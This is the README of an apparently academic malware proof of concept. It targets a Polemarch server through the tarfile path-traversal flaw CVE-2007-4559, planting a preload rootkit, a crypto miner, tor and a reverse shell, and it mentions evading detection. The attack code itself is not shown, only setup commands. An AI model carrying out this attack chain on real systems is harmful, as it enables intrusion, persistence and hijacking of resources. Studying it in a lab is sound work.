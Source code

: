 # MALW
Malware UPC

## Set up

### Docker
```bash
$: docker compose build 
$: docker compose up -d
```

Polemarch server available at http://localhost:8080

### Vagrant
```bash
$: vagrant up
```

Polemarch server available at http://localhost:8085

## POC
Proof of concept using https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-4559 
and based on the work from https://www.trellix.com/en-us/about/newsroom/stories/research/tarfile-exploiting-the-world.html.

### Directories to attack
We want to be able to deploy the following files:
- /usr/local/lib
  -> rootkit.so: library to load
- /etc
  -> ld.so.preload: library to load before any other library
- /opt/polemarch/bin
  -> polemarchctl: entry point for docker
- /usr/bin
  -> xmring: miner
  -> tor: tor

Note: in the real exploit we would change some names to avoid detection.

### Notes
- Binary files MUST have executable permissions
- Tar's can not be deployed twice
- Malware will be placed in an auxiliar folder which will be symlinked to target folder

## Instructions
In order to deploy the malware we will have to set up:

- Polemarch server 
- Server hosting the compromised tar files
- Nc listening to execute a reverse shell

First, deploy the polemarch server:

```bash
$: ./polemarch.sh 
+ docker rm polemarch -f
polemarch
+ docker run -d --name polemarch --restart always -v /opt/polemarch/projects:/projects -v /opt/polemarch/hooks:/hooks -p 8080:8080 vstconsulting/polemarch:1.8.5
fbbbd334a21694e760522172519d51e253f1d2bebb35f5b15a01a1b0b96fb518
```

Generate the tar files and host the tar files (example using python localhost server). Configure the server to listen in an interface
accesible from the docker container:

```bash
$: cd poc
$: python tar.py
+ set -o pipefail
+ python3 tar.py
+ python3 -m http.server --bind 172.17.0.1 3000
Serving HTTP on 172.17.0.1 port 3000 (http://172.17.0.1:3000/) ...
```

Log in to the polemarch server using default password (admin/admin) and
create a project with a the compromised tar file:

![Project](./images/project.png)

"Sync" the project, which will untar untar our compromised tar.

